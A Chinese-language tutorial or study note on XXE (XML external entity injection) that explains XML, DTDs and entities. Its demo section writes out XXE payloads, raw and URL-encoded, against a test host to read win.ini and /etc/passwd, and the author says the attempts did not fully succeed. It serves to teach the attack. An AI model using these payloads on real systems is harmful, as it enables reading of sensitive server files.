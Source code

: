 # XML外部实体攻击简介

**XML外部实体攻击**（XXE，XML External Entity Injection），是一种针对解析[XML](https://zh.wikipedia.org/wiki/XML)格式应用程序的攻击类型之一。此类攻击发生在配置不当的XML解析器处理指向外部实体的文档时，可能会导致敏感文件泄露、拒绝服务攻击、服务器端请求伪造、端口扫描（解析器所在域）和其他系统影响。也就是XML外部实体注入攻击。漏洞是在对非安全的外部实体数据进行处理时引发的安全问题。

XML 1.0标准定义了XML文档结构，同时定义了实体的概念，即某种类型的存储单元。外部一般解析实体或外部参数解析实体通常简称为外部实体，攻击者可声明特定[系统标识符](https://zh.wikipedia.org/w/index.php?title=系统标识符&action=edit&redlink=1)来访问服务器本地或远程内容。XML处理器假设系统标识符为可访问的[统一资源标志符](https://zh.wikipedia.org/wiki/统一资源标志符)（URI），然后将同名的外部实体以系统标识符所指定的资源内容解除引用。若系统标识符被修改，则XML处理器可能会泄露应用程序通常无法访问的秘密信息。



# XML结构

> \- XML被设计为传输和存储数据，其焦点是数据的内容。
>
> \- HTML被设计用来显示数据，其焦点是数据的外观。

XML把数据从HTML分离，XML是独立于软件和硬件的信息传输工具。

基本语法：

* 所有 XML 元素都须有关闭标签。
* XML 标签对大小写敏感。
* XML 必须正确地嵌套。
* XML 文档必须有根元素。
* XML 的属性值须加引号。

如果你把字符`<`放在 XML元素中，会发生错误，这是因为解析器会把它当作新元素的开始。

`<message>hello < world</message>`，为了避免错误。我们用实体引用`&lt;`来代替`<`字符。XML中，有5个预定义的实体引用。



## DTD属性

文档类型定义（DTD）可定义合法的XML文档构建模块。它使用一系列合法的元素来定义文档的结构。DTD可被成行地声明于XML文档中，也可作为一个外部引用。

属性声明使用以下语法：

```
<!ATTLIST 元素名称 属性名称 属性类型 默认值>
```

DTD实例：

```
<!ATTLIST payment Hu3sky CDATA "H">
```

XML实例：

```
<payment Hu3sky="H" />
```

> [引用自：浅谈XML实体注入漏洞](https://www.freebuf.com/vuls/175451.html)

也就是说，`Hu3sky=`的值如果可以由用户控制，那么可以像构造XSS攻击一样，构造出攻击代码。



由于XML是由元素节点组成的树结构，元素之间可存在嵌套关系，因此XML解析器会对XML文档中所有文本也进行解析。为了能够在文本中兼容一些特殊字符 *（默认有`<`、`>`、`&`、`'`和`"`）* ，XML允许在DTD中声明实体并在文本中进行引用，如`<`预定义的实体引用是`<`，是不是有些眼熟？著名的` `其实也是HTML预定义的一个实体引用。

XML实体又分为**内部实体**和**外部实体**，声明方式如下：

```
<!ENTITY name "value">
<!ENTITY name SYSTEM "URI">
<!ENTITY name PUBLIC "PUBLIC_ID" "URI">
```

外部实体声明中，分为`SYSTEM`和`PUBLIC`，前者表示私有资源 *（但不一定是本机）* ，后者表示公共资源。实体声明之后就可以在文本中进行引用了。

>  [原文链接：github.com/gyyyy](https://github.com/gyyyy/footprint/blob/master/articles/2018/xxe-injection-overview.md)



# 演示

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210824232057.png)

构造payload

```
http://www.webtester.com/xxe.php?xml=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20%20a%20%20%5B%3C%21ENTITY%20b%20SYSTEM%20%22file%3A%2f%2f%2fC%3A%2fWindows%2fwin.ini%22%3E%5D%3E%3Cc%3E%26b%3B%3C%2fc%3E
```

不知道为什么得到的结果是下面这个样子。。。不过已经和上面原始的页面的不一样了。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210824232908.png)

## 伪协议利用

在php中还可以利用伪协议读取任意文件

```
<?xml version="1.0"?><!DOCTYPE  a  [<!ENTITY b SYSTEM "file:///etc/passwd">]><c>&b;</c>
```

```
http://www.webtester.com/xxe.php?xml=%3c%3fxml%20version%3d%221.0%22%3f%3e%3c!doctype%20%20a%20%20%5b%3c!entity%20b%20system%20%22file%3a%2f%2f%2fetc%2fpasswd%22%3e%5d%3e%3cc%3e%26b%3b%3c%2fc%3e
```

我也不知道为什么没有成功。。。
